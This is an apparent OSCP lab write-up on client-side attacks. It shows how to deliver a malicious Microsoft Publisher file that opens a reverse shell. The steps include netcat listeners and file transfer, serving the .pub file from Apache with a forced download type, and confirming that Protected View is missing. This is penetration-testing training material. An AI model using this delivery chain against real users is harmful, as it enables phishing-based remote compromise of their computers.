

File ribbon -> Save As -> File name: launch -> File type: Publisher files -> Save. Close the Publisher application window.


Start a netcat listener on Kali
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/13_clientSideAttacks$ sudo nc -lnvp 4444
listening on [any] 4444 ...
```

Start a netcat client on Windows:
```plaintext
C:\Users\Administrator\Desktop>nc -nv 192.168.119.214 8888 < launch.pub 
```

Re-open the launch.pub file


Double-click the icon. A Security Warning pops up.


Press Run. Notice the Kali netcat listener now has a shell.


## 13.3.4.1.3. Move the file to the Apache web server to simulate the download of the Publisher document from the Internet and confirm the missing Protected View.

Start a netcat listener to receive launch.pub
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/13_clientSideAttacks$ nc -lnvp 4444 > launch.publistening on [any] 4444 ...
```
Start a netcat client to send launch.pub
```plaintext
C:\Users\Administrator\Desktop>nc -nv 192.168.119.214 4444 < launch.pub 
(UNKNOWN) [192.168.119.214] 4444 (?) open  
```

Confirm that launch.pub was downloaded to Kali, transfer it to /var/www/html
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/13_clientSideAttacks$ nc -lnvp 4444 > launch.publistening on [any] 4444 ...
connect to [192.168.119.214] from (UNKNOWN) [192.168.214.10] 58762
^C
kali@kali:~/gitWorkspace/pwk/oscpExercises/13_clientSideAttacks$ ls -la launch.pub 
-rw-r--r-- 1 kali kali 105472 Sep 26 09:21 launch.pub
kali@kali:~/gitWorkspace/pwk/oscpExercises/13_clientSideAttacks$ sudo cp launch.pub /var/www/html
```


Edit the 000-default.conf file by adding the following:
```bash
kali@kali:~/gitWorkspace/pwk/oscpExercises/13_clientSideAttacks$ sudo head -n 7 /etc/apache2/sites-enabled/000-default.conf 
<VirtualHost *:80>
        <Directory /var/www/html>
                Options Indexes FollowSymLinks
                AllowOverride None
                Require all granted
                AddType application/octet-stream .pub
        </Directory>
```

Restart apache
```plaintext
KeyboardInterrupt
kali@kali:~/gitWorkspace/pwk/oscpExercises/13_clientSideAttacks$ sudo systemctl start apache2
```

Open a netcat listener on Kali port 4444 (same as evil.hta)
```plaintext
kali@kali:/etc/apache2/sites-enabled$ sudo nc -lnvp 4444
listening on [any] 4444 ...
```

On Windows, open Internet Explorer and browse to Kali's launch.pub. **Remember to prefix the address with http://**


A pop-up window appears to 'Open, Save or Cancel'


Press Open. It opens the Windows Publisher application. **There is no Protected View**


Click on the icon. A Security warning pops up


Press Run. Notce we have a shell on Kali


 